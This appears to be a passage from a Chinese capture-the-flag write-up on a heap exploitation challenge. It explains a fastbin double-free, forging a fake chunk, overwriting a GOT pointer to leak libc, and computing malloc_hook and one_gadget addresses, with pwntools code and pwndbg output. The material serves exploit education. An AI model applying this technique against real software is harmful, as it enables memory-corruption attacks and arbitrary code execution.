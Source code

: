 在程序刚开始的时候给了两次写入机会，我们要的就是第一次机会对0x602060的控制构建假堆头便于等下控制指针过去之后

让程序误认为啊，我是个正常的堆，然后里面塞进去got表把0x602090的地方数据写入0xdeadbeefdeadbeef

然后再去show，就可以得到了libc

fake chunk head如下

```python
fake_chunk_addr = 0x0000000000602060
fake_chunk = p64(0) + p64(0x71)
fake_chunk = fake_chunk.ljust(0x20,'\x00')
```

泄露libc代码如下

刚才我们double free了

如果是正常的double free比如chunk 0  1   2  这样free 0 1 0 此时就会0->1->0->1形成这样的循环链表

但是这样呢涉及到另外一个chunk的double free

就会如下当我们刚才double free后

![](https://img-blog.csdnimg.cn/20200929231018270.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQzNzY2ODAy,size_16,color_FFFFFF,t_70)

我们add一个chunk就能到buf控制他的fd指针指向fakechunk的地址

然后连续申请两次之后再申请一个就是我们的fake chunk的地址

然后去写入数据泄露libc

```python
add(0x60,p64(fake_chunk_addr))
add(0x60,'a'*0x60)
add(0x60,'b'*0x60)
add(0x60,'c'*0x18 + p64(read_got) + p64(0xDEADBEEFDEADBEEF))
gdb.attach(sh)
show()
sh.recv(1)
read_addr = u64(sh.recv(6).ljust(8,'\x00'))
libc_base = read_addr - libc.sym['read']
realloc_addr = libc_base + realloc_s
malloc_hook_addr = libc_base + malloc_hook_s
one_gadget_addr = libc_base + one_gadget_s
print 'libc_base=',hex(libc_base)
print 'malloc_hook_addr=',hex(malloc_hook_addr)
print 'one_gadget_addr=',hex(one_gadget_addr)

```

写入好后的模样

```c
pwndbg> x/32gx 0x602060
0x602060:	0x0000000000000000	0x0000000000000071
0x602070:	0x6363636363636363	0x6363636363636363
0x602080:	0x6363636363636363	0x0000000000601fa0
0x602090:	0xdeadbeefdeadbeef	0x00000000014c8010
0x6020a0:	0x000000000a707268	0x0000000000000000

```
